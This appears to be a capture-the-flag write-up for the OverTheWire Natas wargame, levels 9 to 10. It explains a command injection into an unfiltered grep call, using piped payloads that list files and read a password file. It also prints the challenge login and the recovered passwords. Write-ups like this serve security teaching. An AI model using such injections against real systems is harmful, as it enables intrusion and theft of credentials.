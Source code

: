 ## Natas Level 9 → Level 10
- Go to url: http://natas9.natas.labs.overthewire.org
    - User: natas9
    - Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- This level has us input text, which searches a dictionary for phrases relating to the text
- In the source code, the user’s input is checked and appended to the command “grep -i $key dictionary.txt”
    - Does not filter user input at all, so we can inject something into that command
- First, try inputting “hello | find / #”, making the command “grep -i hello | find / # dictionary.txt”
    - This finds every file in the system… out of curiosity
    - But where in the world is the password.
- Remembering back to level 7… the webpasses seem to be in the /etc/natas_webpass/ directory
- Therefore, input “hello | cat /etc/natas_webpass/natas10 #”, making the command “grep -i hello | cat /etc/natas_webpass/natas10 # dictionary.txt”
    - nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
    - Also, unfortunately, you can’t access the other passwords… :(
